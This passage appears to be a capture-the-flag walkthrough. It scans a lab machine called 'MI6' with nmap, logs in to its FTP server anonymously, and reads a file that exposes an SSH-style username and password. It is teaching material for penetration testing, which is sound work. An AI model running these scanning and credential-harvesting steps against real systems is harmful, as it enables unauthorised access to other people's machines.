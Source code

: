````sql

Run a nmap scan against all ports on the target machine.

```bash
$ nmap -A -Pn -p - 192.168.1.51
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-23 01:04 CEST
Nmap scan report for MI6 (192.168.1.51)
Host is up (0.00018s latency).
Not shown: 60554 filtered tcp ports (no-response), 4979 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.1.44
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 5
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -r--r--r--    1 33       0              22 Apr 17 22:01 flag1.txt
|_-r--r--r--    1 1002     0              29 Apr 17 15:40 not_my_passwords.txt
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c5849242153793582b2cc8f5d9eed24c (RSA)
|   256 bedc4b8fcfd3c50281bab7791f2b9afa (ECDSA)
|_  256 7b1fecd2c294bf1b1984f322005cde02 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 56.44 seconds
```

Oh WOW! There is anonymous login allowed on FTP! Also there is two files on it and apparently our flag! We can also see that the SSH is open.

Connect as ```anonymous:anonymous``` on the ftp and read both files.

```bash
$ ftp 192.168.1.51
Connected to 192.168.1.51.
220 (vsFTPd 3.0.3)
Name (192.168.1.51:v0lk3n): anonymous
331 Please specify the password.
Password: anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
229 Entering Extended Passive Mode (|||7082|)
150 Here comes the directory listing.
-r--r--r--    1 33       0              22 Apr 17 22:01 flag1.txt
-r--r--r--    1 1002     0              29 Apr 17 15:40 not_my_passwords.txt
226 Directory send OK.
ftp> more not_my_passwords.txt                                                                                                                                                                                                          
james_bond:imthebestAgent007
````